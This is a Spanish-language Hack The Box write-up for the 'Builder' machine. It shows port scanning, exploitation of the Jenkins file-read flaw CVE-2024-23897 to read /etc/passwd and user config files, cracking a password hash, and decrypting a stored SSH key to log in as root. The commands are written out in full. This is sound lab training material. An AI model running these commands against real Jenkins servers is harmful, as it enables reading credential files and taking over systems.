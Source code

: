 ```yaml
---
title: Builder HTB Writeup
published: 2024-02-26
description: 'Tenemos un Jenkins Vunerable a CVE-2024-23897  - Jenkins Arbitrary File Leak Vulnerability.'
image: 'image.png'
tags: [Medium, Linux]
category: 'HackTheBox'
draft: false 
---
```


# Initial Recon

Comenzamos nuestros escaneos con nmap.

```bash
> sudo nmap 10.10.11.10 -sS -p- --open -n -Pn --min-rate 3000 -vvv -oG ports 

PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack ttl 63
8080/tcp open  http-proxy syn-ack ttl 62
```

```bash
> nmap -p8080,22 10.10.11.10 -sVC

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:De:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
|_http-title: Dashboard [Jenkins]
|_http-server-header: Jetty(10.0.18)
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry 
|_/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Sólo tenemos 2 puertos, veamos el sitio web.

# Web

![alt text](image-1.png)

Miramos las versiones:

```bash
> whatweb http://10.10.11.10:8080/  
            
http://10.10.11.10:8080/ [200 OK] Cookies[JSESSIONID.678bd8a0], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.678bd8a0], IP[10.10.11.10], Jenkins[2.441], Jetty[10.0.18], OpenSearch[/opensearch.xml], Script[application/json,text/javascript], Title[Dashboard [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson-theme,referrer-policy,cross-origin-opener-policy,x-hudson,x-jenkins,x-jenkins-session,x-instance-identity], X-Frame-Options[sameorigin]
```

Buscar la versión de Jenkins que encontramos en la web. Jenkins 4.441 explotar

## CVE-2024-23897 - Jenkins Arbitrary File Leak Vulnerability

Descargue el archivo .jar del jenkins vulnerable

```bash
wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar 
```

Aquí tienes más información al respecto:

https://www.zscaler.com/blogs/security-research/jenkins-arbitrary-file-leak-vulnerability-cve-2024-23897-can-lead-rce

Lista el /etc/passwd de la máquina víctima.

```bash
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node '@/etc/passwd'
```

![alt text](image-2.png)

## Directory Structure for Jenkins

Aquí comparto información sobre el orden de los directorios Jenkins:

https://medium.com/@knoldus/directory-structure-and-installing-plugins-in-jenkins-3dd62488631c

![alt text](image-3.png)

Buscamos el nombre de usuario:

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' connect-node "@/var/jenkins_home/users/users.xml"
```

![alt text](image-4.png)

Cada lugar tiene su ``config.xml``

![alt text](image-5.png)

Cada usuario tiene un archivo config.xml, veámoslo:

```bash
java -jar jenkins-cli.jar -noCertificateCheck -s 'http://10.10.11.10:8080' connect-node "@/var/jenkins_home/users/jennifer_12108429903186576833/config.xml"
```

Encontramos un hash en el archivo:

![alt text](image-6.png)

La rompemos con John:

![alt text](image-7.png)

## Login in Jenkins

Iniciemos sesión con las credenciales encontradas.

Jenkins credentials — ``jennifer`` : ``princess``

![alt text](image-8.png)

# Privilege Escalation
Si vamos a > Manage Jenkins > Credentials > System > Global Crendentials (UNrestricted)

![alt text](image-9.png)

Si inspeccionamos por encima de la clave, podemos ver que la clave ssh está encriptada.

![alt text](image-10.png)

## How to Print Password Encryption Jenkins

Imprimimos la clave en la consola de Jenkins con el siguiente comando que encontramos en esta web:

https://stackoverflow.com/questions/25547381/what-password-encryption-jenkins-is-using

```bash
println(hudson.util.Secret.fromString("{encrypt hash}"))
```

![alt text](image-11.png)

y ahora como siempre, guardamos la clave y le damos permisos

```bash
chmod 600 id_rsa
```

```bash
ssh -i id_rsa root@10.10.11.10
```

![alt text](image-12.png)